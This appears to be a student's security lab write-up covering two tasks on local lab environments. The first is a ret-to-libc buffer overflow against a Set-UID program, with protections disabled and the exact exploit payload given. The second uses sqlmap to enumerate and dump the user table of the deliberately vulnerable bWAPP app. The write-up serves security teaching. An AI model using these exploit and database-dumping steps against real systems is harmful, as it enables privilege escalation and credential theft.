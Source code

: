 # Task1: Software buffer overflow attack
**Student ID: 22110038**
**Name:** Phan Triệu Huy 
## Setup env:
**Run docker env:** docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
![image](https://github.com/user-attachments/assets/06cbf417-5575-4641-84b9-447a46c15091)
**Create file task1.c and vuln.c to inject code:**
vuln.c:

![image](https://github.com/user-attachments/assets/a641a96e-9d42-49d0-a25b-3de4469e76ea)
task1.c:

![image](https://github.com/user-attachments/assets/3a749cb1-2267-4ba3-9d32-6f2ba89c51d4)
 
 **setup:**
Ubuntu and several other Linux-based systems use address space randomization to randomize the starting address of heap and stack.This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this feature using the following command:
sudo sysctl -w kernel.randomize_va_space=0
![image](https://github.com/user-attachments/assets/f8d0b7c8-25c8-4755-b848-7fcc944dc4cd)

In both Ubuntu 12.04 and Ubuntu 16.04 VMs, the/bin/sh symbolic link points to the/bin/dash shell. The dash shell in Ubuntu 16.04 has a countermeasure that prevents itself from being executed in a Set-UID process. Basically, if dash detects that it is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real user ID, essentially dropping the privilege.Since our victim program is aSet-UID program, and our attack relies on running/bin/sh, the countermeasure in/bin/dash makes our attack more difficult.
sudo ln -sf /bin/zsh /bin/sh
![image](https://github.com/user-attachments/assets/17c0f108-c688-4a62-92bf-0fad1ed11384)

Compile program with options to defeat stack protecting mechanism and code execution on stack:
gcc vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
![image](https://github.com/user-attachments/assets/19e982d1-dc96-47c9-9339-8a85eddcd3dd)
## Attack:
**overview:**
![image](https://github.com/user-attachments/assets/cc724258-5395-47b6-9409-69621a79c880)
because shellcode larger 16byte . So, I'll use ret-to-libc.
**export path task1.c to env:**
export mypath="/home/seed/seclabs/lab_exam/task1.c"
![image](https://github.com/user-attachments/assets/be7a33d1-2531-433c-893b-f402628c0fae)
**run debug:**
gdb ./vuln
start
![image](https://github.com/user-attachments/assets/cff40445-01c0-4ddd-9ec6-3382fde290cc)
**get address of system, exit, mypath:**
![image](https://github.com/user-attachments/assets/ddd26bf2-509b-404a-a29f-c3a82c84dcf5)

system: 0xf7e50db0  will be inserted with format \xb0\x0d\xe5\xf
exit: 0xf7e449e0  will be inserted with format \xe0\x49\xe4\xf7
mypath("/home/seed/seclabs/lab_exam/task1.c"): 0xffffdf14 to \x14\xdf\xff\xff
=> r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' '\xe0\x49\xe4\xf7' +  '\x14\xdf\xff\xff')")
![image](https://github.com/user-attachments/assets/3a191e29-6018-4a78-a450-237b57bfc60e)
=> it execute code C but i have bug. 
**run remove ^M**
cat -v task1.c
sed -i 's/\r$//' task1.c
before: 
![image](https://github.com/user-attachments/assets/54e994ff-8957-4a71-b27e-d51f1c991c21)
after: 
![image](https://github.com/user-attachments/assets/25aee0e4-767d-4e09-9a94-71a10ed713df)

**before attack:**
![image](https://github.com/user-attachments/assets/603431f1-e1fe-44d5-81da-17768aec7fce)
**after attack:**
# Task2: Attack on the database of bWapp 
## Install:
**Install bWapp:**
docker pull raesene/bwapp
docker run --rm -it -p 8025:80 raesene/bwapp
localhost:8025/install.php
![image](https://github.com/user-attachments/assets/d454d936-825b-4939-a906-d207ea620f13)

**Install sqlmap:**
![image](https://github.com/user-attachments/assets/bb57e17f-06cc-4090-8042-7c7d1090ca7c)

![image](https://github.com/user-attachments/assets/6d342a2b-4068-4b2a-b759-b9024843b461)

## question1:  Use sqlmap to get information about all available databases
**get cookies of web:**

![image](https://github.com/user-attachments/assets/131f0c6d-dc0d-46f8-acef-2655f0581e3c)

**get valiable tables:**
run: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/83a79a5b-1806-49a6-826b-7e101ec81231)

## question2:  Use sqlmap to get tables, users information
**get tables:**
run: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/7f30c176-7beb-4e72-a5d4-d44f9ebbf4e9)

**get users information:**
run python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"
info of tables:

![image](https://github.com/user-attachments/assets/310dea9c-6304-4ba7-b3b7-3cf06dcc1d34)

data of tables:
![image](https://github.com/user-attachments/assets/cd36bebf-4431-41f1-a69d-c3f0b42e7ecf)

## question3:  Make use of John the Ripper to disclose the password of all database users from the above exploit

